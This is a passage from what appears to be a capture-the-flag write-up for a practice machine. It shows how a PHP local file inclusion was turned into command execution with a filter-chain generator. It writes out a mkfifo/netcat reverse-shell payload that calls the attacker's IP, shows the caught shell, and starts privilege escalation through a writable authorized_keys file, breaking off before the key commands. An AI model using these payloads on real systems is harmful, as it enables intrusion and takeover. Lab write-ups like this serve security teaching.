 ## **Foothold**

I tried reading some knows interesting file like `id_rsa` and `access.log` but they weren't there.

Going back to the other links, I noticed that they use a php wrapper.

![phpwrapper](5.png)

This was a hint for us to use wrappers to get access.

Going to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers) we can see how we can get command execution with that.

![payloads](6.png)

First we need to download the python generator script here <https://github.com/synacktiv/php_filter_chain_generator>

Now we run the script to generate a wrapper that sends us a reverse shell:

```bash
python phpgen.py --chain "<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.4.213 9001 >/tmp/f'); ?>" > payload.txt
```

>Don't forget to change the IP address in the script to yours

We need to copy the second line and put in the parameter.

![sendpayload](7.png)

Now we setup a listener and send the request.

```terminal
┌─[]─[10.9.4.213]─[sirius@parrot]─[~/ctf/thm/cheesy]
└──╼ [★]$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.9.4.213] from (UNKNOWN) [10.10.70.67] 50320
bash: cannot set terminal process group (829): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cheesectf:/var/www/html$ 
```

## **Privilege Escalation**

Let's run linpeas now.

![linpeas](8.png)

We see that we have write permissions over `authorized_keys` of user `comte` and also over `exploit.timer` service.

Let's escalate our privileges to user `comte` by adding our ssh public key to the authorized_keys.

First we create a pair of keys on our machine using the following command.
